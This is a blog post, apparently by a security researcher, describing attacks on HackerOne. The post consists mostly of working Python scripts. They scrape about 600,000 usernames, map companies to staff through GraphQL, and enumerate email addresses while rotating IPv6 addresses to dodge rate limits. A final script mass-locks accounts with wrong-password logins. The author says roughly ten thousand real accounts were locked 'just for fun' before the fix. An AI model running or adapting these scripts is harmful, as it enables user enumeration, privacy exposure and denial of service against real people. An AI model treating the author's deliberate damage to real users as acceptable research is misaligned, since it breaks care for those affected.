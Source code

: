 ```yaml
---
layout: post
title:  Enum H1 Staff and Users email addresses and Lock accounts
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - CongRong</p>

I found https://hackerone.com/sitemap.json a few months ago, but saw that only users starting with `a` were returned, but later I found out that it can be accessed via the parameter `first` Enumerate all users:

{% highlight http %}
https://hackerone.com/sitemap.json?first=[a-z]
{% endhighlight %}

After I got the id of nearly 600,000 users, thinking about how to use this data to maximize the harm?

So I thought of three ideas:

1. By requesting the `graphql` interface, query the team that each user belongs to. Reverse this result into: List of companies-> Staff. (Unrestricted)
2. Merge all common email addresses with ids, and enumerate whether the email addresses exists in the registration interface. (Limited, but can be bypassed with more IPv6)
3. Finally, you can use the blasted email addresses to log-in to the interface and request more than 100+ wrong passwords to lock your account. XD

## 0x01 Company -> Staff:

{% highlight python %}
#!/usr/bin/env python
#coding:utf-8

import os
import time
import json
import string
import requests

def main(name):
    print name
    datas = {"operationName":"getTeams","variables":{"username":"{}".format(name)},"query":"query getTeams($username: String!) {\n  user(username: $username) {\n    memberships(first: 10, where: {concealed: {_eq: false}}) {\n      total_count\n      edges {\n        node {\n          id\n          team {\n            id\n            name\n            handle\n            state\n            profile_picture(size: small)\n            __typename\n          }\n          __typename\n        }\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n}\n"}

    headers={
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0",
        "content-type": "application/json",
        "x-auth-token": "----",
        "Connection": "close"
    }
    try:
        r = requests.post("https://hackerone.com/graphql",headers=headers , data=json.dumps(datas), timeout=5)
        ret = json.loads(r.content)['data']['user']['memberships']
        if isinstance(ret['total_count'],int):
            f = open("done.txt",'a')
            f.write(name + '\n')
            f.close()

            if ret['total_count'] != 0:
                results = {name:[team['node']['team']['handle'] for team in ret['edges']]}
                print results
                with open("results/{}.txt".format(name),'w') as fp:
                    json.dump(results, fp, indent=4, ensure_ascii=False)
    except Exception,e:
        print e

if __name__ == '__main__':
    done = [i.strip() for i in open("done.txt")]
    for i in string.lowercase:
        with open("{}.txt".format(i)) as f:
            jf = json.load(f)
            for k in jf['users']:
                if k['username'] not in done:
                    ret = main(k['username'])
{% endhighlight %}

![](https://statics.symbo1.com/file/symbo1/article-images/aa2.png)

After reversing, the staff corresponding to the company is generated:

{% highlight python %}
#coding:utf-8

import os
import json
import string

def main():
	companys = {}
	staffs = os.listdir('results')
	for sf in filter(lambda x:x[-4:] == '.txt',staffs):
		staff = sf[:-4]
		with open('results/{}'.format(sf)) as f:
			sTmp = json.load(f)
			for c in sTmp.values()[0]:
				if c not in companys.keys():
					companys[c] = []
				companys[c].append(staff)

	profiles = {}

	for i in string.lowercase:
		with open("{}.txt".format(i)) as f:
			jf = json.load(f)
			for k in jf['profiles']:
				profiles[k['handle']] = k['name']

	f = open("staffList.txt",'a')
	f.write("| Company (347) | Staff (3488) |\n| --- | --- |\n")
	for k,v in companys.items():
		inc = profiles[k] if k in profiles.keys() else k
		users = []
		for u in v:
			users.append("[{}](https://hackerone.com/{})".format(u,u))
		f.write('| [{}](https://hackerone.com/{}) | '.format(inc,k) + '、'.join(users) + ' |\n')
	f.close()


if __name__ == '__main__':
	main()
{% endhighlight %}

So I have a list of `347` teams corresponding to `3488` staff XD

<a href="https://github.com/Symbo1/HackerOne-Staffs" target="_blank">https://github.com/Symbo1/HackerOne-Staffs</a>

![](https://statics.symbo1.com/file/symbo1/article-images/aa3.png)

## 0x02 Enumeration email addresses:

Under normal circumstances, the registered API will be frequency-limited, but can be bypassed by adding a large number of IPv6 enumerations:

![](https://statics.symbo1.com/file/symbo1/article-images/aa4.png)

Here only use gmail for testing, in fact, you can also add outlook, yahoo, mail.ru ...

{% highlight python %}
import json
import random
import string
import requests
import netifaces
from gevent import monkey
from gevent.pool import Pool
from requests_toolbelt.adapters import source

monkey.patch_all()
interfaces = 'ens3'

ips = []
for ipv6 in netifaces.ifaddresses(interfaces)[netifaces.AF_INET6]:
	if not ipv6['addr'].split(':')[0] == "fe80":
		ips.append(ipv6['addr'].split('%')[0])

def main(username):
	print username
	email = "{}@gmail.com".format(username)
	datas = {
		"user[email]": email
	}

	headers={
		"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0",
		"Accept":"application/json, text/javascript, */*; q=0.01",
		"X-CSRF-Token":"...",
		"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
		"X-Requested-With":"XMLHttpRequest",
		"Cookie": "...",
		"Connection":"keep-alive"
	}
	try:

		s = requests.Session()
		new_source = source.SourceAddressAdapter(random.choice(ips))
		s.mount('http://', new_source)
		s.mount('https://', new_source)

		r = s.post("https://hackerone.com/users",headers=headers , data=datas, timeout=5)
		ret = json.loads(r.content)["errors"]
		if ret:
			f = open("email-done.txt",'a')
			f.write(username + '\n')
			f.close()
			if "email" in ret.keys():
				print email
				f = open("emails.txt",'a')
				f.write(email + '\n')
				f.close()
	except Exception,e:
		print e

if __name__ == '__main__':
	tasks = []
	done = [i.strip() for i in open("email-done.txt")]
	for i in string.lowercase[:1]:
		with open("{}.txt".format(i)) as f:
			jf = json.load(f)
			for k in jf['users']:
				if k['username'] not in done:
					tasks.append(k['username'])
	pool = Pool(20)
	pool.map(main, tasks)
{% endhighlight %}

![](https://statics.symbo1.com/file/symbo1/article-images/aa5.png)

After enumerating `30k+` ID's I stopped the testing, and `2887` of them returned with success: (ps. emmmm悄悄的说，后来我获取到了几万)

![](https://statics.symbo1.com/file/symbo1/article-images/aa0.png)

As such, for total `600k` ID's, we may be able to get at least tens thousands of valid email addresses.

## 0x03 Lock accounts:

{% highlight python %}
import sys
import random
import string
import requests
import netifaces
from gevent import monkey
from gevent.pool import Pool
from requests_toolbelt.adapters import source

monkey.patch_all()
interfaces = 'ens3'

ips = []
for ipv6 in netifaces.ifaddresses(interfaces)[netifaces.AF_INET6]:
	if not ipv6['addr'].split(':')[0] == "fe80":
		ips.append(ipv6['addr'].split('%')[0])

def main(email):
	datas = {
		"email":email,
		"password":''.join(random.sample(string.lowercase,10)),
		"remember_me":"false"
	}

	headers={
		"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0",
		"Accept":"application/json, text/javascript, */*; q=0.01",
		"X-CSRF-Token":"...",
		"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
		"X-Requested-With":"XMLHttpRequest",
		"Cookie": "...",
		"Connection":"keep-alive"
	}
	try:

		s = requests.Session()
		new_source = source.SourceAddressAdapter(random.choice(ips))
		s.mount('http://', new_source)
		s.mount('https://', new_source)

		r = s.post("https://hackerone.com/sessions",headers=headers , data=datas, timeout=5)
		print "password: {} {}".format(datas['password'],r.content)
	except Exception,e:
		print e

if __name__ == '__main__':
	tasks = [sys.argv[1]]*110
	pool = Pool(20)
	pool.map(main, tasks)
{% endhighlight %}

![](https://statics.symbo1.com/file/symbo1/article-images/aa7.png)

After 100+ login attempts with incorrect passwords, the account was locked out successfully.

![](https://statics.symbo1.com/file/symbo1/article-images/aa6.png)

If I want to lock someone's account, I just need to enumerate the email addresses and then loop the script. Because the session will be invalidated after being locked, and the `unlock token` is unique each time it is locked.

## 0x04 End.

后来的故事就是封了万个号，h1官方进行了修正，并向被锁账号们群发了该事件的邮件：

![](https://statics.symbo1.com/file/symbo1/article-images/aa10.png)

Just For Fun :]